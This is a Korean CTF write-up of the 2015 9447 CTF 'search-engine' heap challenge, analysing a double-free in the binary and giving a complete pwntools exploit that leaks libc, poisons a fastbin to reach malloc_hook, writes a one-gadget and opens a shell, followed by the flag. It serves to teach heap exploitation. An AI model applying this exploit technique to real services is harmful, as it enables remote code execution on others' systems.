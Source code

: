 ```yaml
---
layout: post
title: "[2015 9447-ctf] search-engine 풀이"
date: 2018-09-12 04:44
categories: "[Pwn]CTF"
tags: rotles98
---
```


>### Ever wanted to search through real life? Well this won't help, but it will let you search strings.
### Find it at search-engine-qgidg858.9447.plumbing port 9447.
### [search](https://github.com/ctfs/write-ups-2015/raw/master/9447-ctf-2015/exploitation/search-engine/search-bf61fbb8fa7212c814b2607a81a84adf)

[how2heap](https://github.com/shellphish/how2heap)의 `fastbin dup into stack` 문제에요.

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![file](/img/2015_9447-ctf/search-engine/01.png)
{: refdef}

## `func_search`

1. 검색할 문자열의 길이와 문자열을 입력

2. 전체 문자열이 존재하는지 검사

3. 부분 문자열의 길이와 문자열을 입력받은 값과 비교

4. 다음 구조체가 없을 때 까지 계속 검사

5. 일치하는 문자열이 있으면 전체 문자열을 전체 문자열의 길이만큼 출력하고 `free`할 지 선택

6. `free`를 하면 전체 문자열을 그 길이만큼 `\x00`으로 초기화하고 전체 문자열만 `free`

## `func_index`

1. 등록할 문자열의 길이와 문자열을 입력

2. 문자열의 띄어쓰기마다 구조체를 생성

## `구조체 chunk`

```
[prev_size][chunk_size]
[*부분 문자열][부분 문자열의 길이]
[*전체 문자열][전체 문자열의 길이]
[*다음 구조체]
```

- - -
# 0x01. 취약점 분석

이 문제에 취약점은 문자열 검색 후에 `Delete`로 문자열은 `free`해주는데 구조체는 그대로인 거에요.

문자열을 초기화하고 `free`하지만 `free`를 하면 `fd`같은게 생기기 때문에 `func_search`의 2번에서 검사가 똑디 안돼요.

이걸 확인해 보려면 아래처럼 코드를 작성하면 돼요.

```python
func_index("AAAA B".ljust(0x68, "C"))
func_index("D"*0x68)

func_search("D"*0x68)
s.sendline("y")
func_search("AAAA")
s.sendline("y")

func_search("\x00")
```

{: refdef: style="text-align: center;"}
![func_index](/img/2015_9447-ctf/search-engine/02.png)
{: refdef}

우선 `func_index`를 두 번 하면 위처럼 돼요.

위에서부터 순서대로 `"D"*0x68`, `"C"*0x61`, `"B"`, `"AAAA"` 에요.

{: refdef: style="text-align: center;"}
![func_search](/img/2015_9447-ctf/search-engine/03.png)
{: refdef}

둘 다 `delete`한 상태에요.

구조체의 값은 그대로인데 `문자열 chunk`를 보면 `"D"*0x68` 대신 `\x00`만 들어있고 `"AAAA"` 부분엔 `"D"*0x68`의 주소가 아닌 다른 주소가 들어가 있어요.

왜 그런가 보니까 `func_search`함수를 보면 검색이 목적으로 `문자열 chunk`를 처음에 할당해줘요. 이 `chunk`는 함수가 끝날 때 `free` 하니까 `"D"*0x68`을 `delete`할 때 기존의 `문자열 chunk`가 `free`되고 검색을 위해 할당한 `문자열 chunk`가 `free`돼요.

쨋든 이걸로 `heap`영역의 주소도 알아낼 수 있고 `delete`를 또 해주면 `Double Free Bug`도 발생해요.

- - -
# 0x02. 공격 방법

`Double Free Bug`가 발생하니까 `fastbin`의 `fd`를 조작해서 `malloc_hook`쪽에 `chunk`를 할당받아서 `malloc_hook`에 `magic_gadget`을 넣을거에요.

그러려면 `libc_leak`을 해야하는데 그건 `unsorted_bin`을 사용할 거에요. 위 방법이랑 똑같이 하면 `bk` 부분에서 `libc_leak`을 할 수 있어요.

`fastbin`을 사용할 땐 순서를 신경써야 하는데 전 단순하게 `0x70 chunk`를 세 개 할당받고 순서대로 `free`해준 다음 두 번째 `chunk`를 다시 `free`해줬어요.

`0x70 chunk`를 사용하는 이유는 `malloc_hook` 쪽에는 라이브러리의 주소들이 적혀있는데 이 값이 `0x7f~~~`로 생겨서에요. `0x7f`를 `fastbin`의 `size`로 착각하게끔 주소를 바꿔주면 `fastbin`인 줄 알고 그쪽으로 `chunk`를 할당해줘요.

1. `unsorted bin`을 이용해 `libc_leak` (`main_arena+88`)

2. `0x70 chunk`를 `Double Free` (이 단계가 끝나면 `head` - `2` - `3` - `2` - `1` - `tail`)

3. `malloc_hook - 0x13` 주소가 `fd`에 들어가게끔 `0x70 chunk` 할당 (`head` - `3` - `2` - `malloc_hook - 0x13` - `tail`)

4. 두 번 더 `0x70 chunk`를 할당 (`head` - `malloc_hook - 0x13` - `tail`)

5. `malloc_hook`에 `magic_gadget`이 들어가끔 `0x70 chunk` 할당

- - -
# 0x03. 익스플로잇

```python
rom pwn import *
#context.log_level = "debug"

HOST = "192.168.0.19"
#HOST = "search-engine-qgidg858.9447.plumbing"
PORT = 4444
#PORT = 9447

s = remote(HOST, PORT)
pause()

elf = ELF("./search-engine")
libc = ELF("./libc.so.6")

malloc_hook_off = 0x3C4B10
leak_off = 0x3c4b78
one_off = 0xf02a4

def func_search(content):
    s.sendline("1")

    s.recvuntil("size:\n")
    s.sendline(str(len(content)))

    s.recvuntil("word:\n")
    s.sendline(content)

def func_index(content):
    s.sendline("2")

    s.recvuntil("size:\n")
    s.sendline(str(len(content)))

    s.recvuntil("sentence:\n")
    s.sendline(content)

# libc_leak
func_index(("1"*0x10 + " 2 ").ljust(0x118, "3"))
func_index("4 ".ljust(0x118, "5"))

func_search("4")
s.sendline("y")
func_search("1"*0x10)
s.sendline("y")

func_search("\x00")
s.recvuntil("Found 280: ")
s.sendline("n")
s.recv(8)
libc_leak = u64(s.recvuntil("\x00").ljust(8, "\x00"))
real_base = libc_leak - leak_off
real_malloc_hook = real_base + malloc_hook_off
real_one = real_base + one_off

print
log.info("real_base : " + hex(real_base))
log.info("real_malloc_hook : " + hex(real_malloc_hook))
log.info("real_one : " + hex(real_one))
print

# Double Free Bug
func_index(("A"*0x10 + " BB ").ljust(0x68, "C"))
func_index(("D"*0x10 + " EEE ").ljust(0x68, "F"))
func_index(("G"*0x10 + " HHHH ").ljust(0x68, "I"))

func_search("BB")
s.sendline("y")
func_search("EEE")
s.sendline("y")
func_search("HHHH")
s.sendline("y")

func_search("\x00"*0x3)
s.sendline("y")

# exploit
payload = p64(real_malloc_hook - 0x13)
func_index(payload.ljust(0x68, "J"))
func_index("K"*0x68)
func_index("L"*0x68)

payload = "\x7f\x00\x00"
payload += p64(real_one)
func_index(payload.ljust(0x68, "\x00"))

s.interactive()
```

### 9447{this_w4S_heAPs_0f_FUn}
